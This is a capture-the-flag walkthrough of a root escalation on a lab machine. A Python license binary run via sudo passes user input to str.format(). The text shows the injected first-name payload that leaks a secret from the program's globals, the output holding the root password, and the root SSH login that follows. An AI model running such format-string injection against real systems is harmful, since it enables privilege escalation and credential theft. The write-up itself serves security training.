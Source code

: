 #### Searching for Vulnerabilities

- the `/etc/ssh/sshd_config` shows that `root` is allowed to log in via SSH:
- `sudo -l` shows that `cooper` is allowed to execute the `license` binary as `root`:
    ```
    User cooper may run the following commands on format:
        (root) /usr/bin/license
    ```
- `binwalk license` shows that it is a Python script that can be exploited via the `str.format()` method:
    ```python
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    ```
    - https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-format-string
- The Python source code also contains a suspicious variable `secret`:
    ```python
    secret = [line.strip() for line in open("/root/license/secret")][0]
    ```

#### Exploitation

1. To exploit the vulnerability we found, let's create another user account on the webpage:
    - username: `bar`
    - first name: `{license.init.globals[secret]}`
2. The output of the command `sudo license -p bar` contains the value of the variable `secret`:
    ```
    Plaintext license key:
    ------------------------------------------------------
    microblogbaro-4x'2xqhD"0\G{M+`=~/1:n?JcF3aG]sW,CC,plunCR4ckaBL3Pa$$w0rdbar

    Encrypted license key (distribute to customer):
    ------------------------------------------------------
    gAAAAABlCK4w4Q1DBHF7ZnQGMo_d3_j09GsmbKuS08hZmemMw8O-bTUmAd7vIEirYDRw5fwvCjf5ReNr5_aNwTWY2WK1oYB-S1VOEQYptn99pgb5m8kk-jlHxwVFcHpbONUyzD9TrEDHBMHz_BQPu1XpgPwkpSIeCc1CxYg7bD7nrbHFuMX2hbY=
    ```
    - if you look closely, you can see, that the output for the license key contains the string `unCR4ckaBL3Pa$$w0rd`
3. With the password `unCR4ckaBL3Pa$$w0rd` we can log in via SSH as `root`! 🏁
